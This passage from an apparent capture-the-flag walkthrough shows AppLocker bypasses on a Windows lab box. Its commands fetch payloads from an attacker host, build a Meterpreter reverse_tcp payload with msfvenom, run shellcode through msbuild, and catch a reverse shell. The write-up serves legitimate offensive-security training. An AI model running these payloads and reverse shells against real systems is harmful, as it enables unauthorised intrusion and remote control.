 

`-f csharp` puts it in the format needed for this template, and
`-v shellcode` sets the output variable name to `shellcode`, to match
the template. I'm using a Meterpreter payload so I can show the MSF
version of the exploit later.

I'll add that shellcode to the template, and save the file, and upload
it to Fighter, and run it:



    PS C:\programdata> iwr http://10.10.14.6/shellcode.xml -outfile sc.xml
    PS C:\programdata> C:\Windows\microsoft.net\framework\v4.0.30319\msbuild.exe sc.xml



It just hangs, but at `msfconsole`, where I had a
`exploit/multi/handler` listening, there's a connection:



    msf6 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.6:443 
    [*] Sending stage (175174 bytes) to 10.10.10.72
    [*] Meterpreter session 1 opened (10.10.14.6:443 -> 10.10.10.72:49175 )

    meterpreter > 



#### Extensionless

It turns out that while AppLocker is blocking `.exe` files, I can still
upload an executable and run it without that extension.

I'll generate a payload:



    oxdf@hacky$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=443 -f exe -o met.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 354 bytes
    Final size of exe file: 73802 bytes
    Saved as: met.exe



Now upload it. Saving it as `met.exe` fails, but `met` succeeds:



    PS C:\programdata> wget 10.10.14.6/met.exe -outfile met.exe
    Invoke-PowerShellTcp : Access to the path 'C:\programdata\met.exe' is denied.
    At line:127 char:1
    + Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
       tion
        + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
       n,Invoke-PowerShellTcp
